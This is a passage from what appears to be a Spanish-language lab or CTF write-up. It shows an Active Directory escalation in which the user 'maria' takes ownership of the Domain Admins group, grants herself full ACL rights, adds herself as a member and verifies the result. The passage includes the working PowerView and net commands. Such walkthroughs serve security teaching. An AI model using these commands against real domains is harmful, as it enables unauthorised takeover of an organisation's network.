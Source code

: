 <figure><img src="../../../.gitbook/assets/3164_vmware_W4tvF0hfT2.png" alt="" width="443"><figcaption></figcaption></figure>

Utilizamos el comando `Set-DomainObjectOwner` para transferir la propiedad del grupo a "maria", lo que nos permitió cambiar cualquier aspecto del grupo, incluidos sus miembros y permisos.

A continuación, utilizamos `Add-DomainObjectAcl` para otorgar a "maria" permisos completos sobre el grupo y, con Add-DomainGroupMember, la agregamos como miembro del grupo _Domain Admins_, asegurando su acceso a privilegios de administrador en el dominio.

Finalmente, verificamos la pertenencia de "maria" al grupo mediante el comando _net user /domain_, confirmando su escalada de privilegios y control completo sobre el dominio.

```powershell
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'

Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All

Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'

net user maria /domain
```

<figure><img src="../../../.gitbook/assets/3165_vmware_cHvp6TUHXW.png" alt=""><figcaption></figcaption></figure>
